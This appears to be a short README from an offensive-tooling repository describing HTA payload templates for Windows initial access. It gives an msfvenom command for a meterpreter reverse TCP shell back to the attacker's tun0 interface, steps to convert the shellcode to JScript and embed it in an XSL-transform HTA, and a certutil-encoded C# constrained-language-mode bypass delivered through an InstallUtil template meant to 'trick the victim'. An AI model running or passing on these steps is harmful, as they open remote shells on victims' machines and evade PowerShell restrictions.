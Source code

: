 ### <ins>XSL Transform (xsl-template.hta)</ins>

- Create shellcode using msfvenom: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt` 
- Convert to JS using SuperSharpShooter: `python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test` 
- Embed the JS content inside the `xsl-template.hta` template file. 

### <ins>InstallUtil (installutil-template.hta)</ins>
- Compile C# executable that uses Custom Powershell Runspace.
- Convert the outputted EXE to txt using certutil: `certutil -encode clm-bypass.exe file.txt`
- Use the InstallUtil template to trick the victim to download the file.txt file and let the magic happen.
